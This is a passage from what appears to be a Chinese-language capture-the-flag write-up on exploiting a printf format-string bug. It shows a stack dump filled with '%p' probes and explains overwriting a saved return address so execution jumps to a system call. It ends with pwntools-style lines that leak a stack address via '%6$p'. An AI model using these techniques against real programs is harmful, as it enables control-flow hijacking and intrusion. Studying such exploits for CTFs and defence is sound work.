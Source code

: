 接下来就是希望，能让程序运行到上面这个函数里面。用printf来劫持程序的运行流程。

我们再来观察一下之前那个在printf停留的栈

	0000| 0x7fffffffdf20 --> 0x7fffffffdf60 --> 0x7fffffffe010 --> 0x400eb0(push r15)

	0008| 0x7fffffffdf28 --> 0x400d74 (add rsp,0x30)

	0016| 0x7fffffffdf30 ("aaaaaaaa,%p,%p,"...)

	0024| 0x7fffffffdf38 (",%p,%p,%p,%p,%p"...)

	0032| 0x7fffffffdf40 ("p,%p,%p,%p,%p,%"...)

	0040| 0x7fffffffdf48 ("%p,%p,%p,%p,%p,"...)

	0048| 0x7fffffffdf50 (",%p,%p,%Mr@")

	0056| 0x7fffffffdf58 --> 0x400d4d (cmp eax,0x2)

	0064| 0x7fffffffdf60 --> 0x7fffffffe010 --> 0x400eb0 (push r15)

	0072| 0x7fffffffdf68 --> 0x400e98 (add rsp,0x30)

	0080| 0x7fffffffdf70 ("aaaaaaaa,%p,%p,"...)

	0088| 0x7fffffffdf78 (",%p,%p,%p,%p,%p"...)

	0096| 0x7fffffffdf80 ("p,%p,%p,%p,%p,%"...)

	0104| 0x7fffffffdf88 ("%p,%p,%p,%p,%p,"...)

	0112| 0x7fffffffdf90 (",%p,%p,%c016@")

	0120| 0x7fffffffdf98 --> 0x400e63 (jmp 0x400e80)

	0128| 0x7fffffffdfa0 --> 0x7fffffffe0f8 --> 0x7fffffffe419("/home/katrina/D"...)

	0136| 0x7fffffffdfa8 --> 0x1756e6547

	0144| 0x7fffffffdfb0 ("aaaaaaaa,%p,%p,"...)

	0152| 0x7fffffffdfb8 (",%p,%p,%p,%p,%p"...)

第一个位置是ebp的值，第二个位置是函数的返回地址，我们需要的就是把这个返回地址覆盖成sub_4008A6的地址，使结束了printf之后直接跳到system去执行。

首先需要先拿到这个栈位置的地址，因为现在所看到的地址是动态的，但地址与ebp之间的距离是固定的，算出这个固定值，然后再用printf泄露的地址加上这个固定值就可以了。

	0x7fffffffdf60-0x7fffffffdf28=0x38

	r.recvuntil('Input your username(max lenth:20): n')

	r.sendline('aaaa')

	r.recv()

	r.sendline('%6$p')

	r.recvuntil(">")

	r.sendline('1')

	r.recvuntil("0x")

	stack_addr=int(r.recvline().strip(),16)-0x38
